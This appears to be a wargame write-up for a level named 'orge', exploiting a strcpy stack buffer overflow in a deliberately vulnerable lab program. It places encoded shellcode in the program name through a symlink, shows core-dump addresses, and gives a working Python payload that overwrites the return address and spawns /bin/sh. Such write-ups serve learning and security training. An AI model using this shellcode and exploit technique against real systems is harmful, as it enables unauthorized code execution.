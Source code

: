 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy() that does not check boundary.

So, I can overwrite SFP & RET address.

Protection code is:
```c
// here is changed
if(argc != 2){
  printf("argc must be two!\n");
  exit(0);
}

// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}

// check the length of argument
if(strlen(argv[1]) > 48){
  printf("argument is too long!\n");
  exit(0);
}
```
The protection that checks argc is 2 or not is added.

# Exploitation
As the program does not reset argv[0], I will pass shellcode in program's name.

```
----------------------------------------------
| NOP(40) | AAAA(4) | RET(argv[0]'s address) |
----------------------------------------------
```

To give shellcode in argv[0], I used `ln -s`:
```bash
[orge@192 orge]$ ln -s ./asdfa ./`python -c 'print "\x90"*10+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```
And make a core file to get argv[0]'s address:
```
0xbffffbbc:	0x90902f65	0x90909090	0x90909090	0x315e11eb
0xbffffbcc:	0x8032b1c9	0x01ff0e6c	0x7501e980	0xe805ebf6
0xbffffbdc:	0xffffffea	0x6951c132	0x69743030	0x6a633069
```
# Payload
```python
import os
from struct import *

filename = ""
filename = filename + "/home/orge/"
filename = filename + "\x90"*10+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

print len(filename)

payload = ""
payload = payload + "\x90" * 15
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "AAAA" # SFP
payload = payload + "\xc0\xfb\xff\xbf" # RET

os.execv(filename, [filename, payload])
```


